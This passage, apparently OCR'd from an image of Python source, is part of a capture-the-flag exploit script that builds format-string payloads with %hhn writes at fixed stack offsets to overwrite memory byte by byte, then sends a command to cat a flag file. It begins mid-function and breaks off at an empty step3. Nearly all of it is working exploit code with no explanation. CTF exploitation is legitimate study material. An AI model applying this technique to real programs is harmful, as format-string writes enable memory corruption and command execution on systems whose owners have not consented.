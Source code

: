 ```python
        payload += "%" + str(0x100 + byte5 - byte4) + "c%30$hhn"

    if byte6 > byte5:
        payload += "%" + str(byte6 - byte5) + "c%31$hhn"
    else:
        payload += "%" + str(0x100 + byte6 - byte5) + "c%31$hhn"
payload += ")"

    p.sendline(payload)
    p.sendline("(1cat /opt/xnuca/flag.txt;)")
    p.recvuntil("gongfang")
    flag = p.recvline()
    flag = flag.replace("}","").replace("{","")
    print flag
    return flag

def step1(p):
    word1 = target & 0xff
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 1
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target >> 8) & 0xff
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 2
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target >> 16) & 0xff
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)
    
def step2(p):
    word1 = (ebp4 & 0xff) + 8
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target & 0xff) + 1
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 1 + 8
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target >> 8) & 0xff
    payload = "(1%" + str(word1) + "c%24$hhn)"
    p.sendline(payload)

    word1 = (ebp4 & 0xff) + 2 + 8
    payload = "(1%" + str(word1) + "c%20$hhn)"
    p.sendline(payload)

    word1 = (target >> 16) & 0xff
    payload = "(1%" + str(word1) + "c%24$n)"
    p.sendline(payload)

def step3(p):
```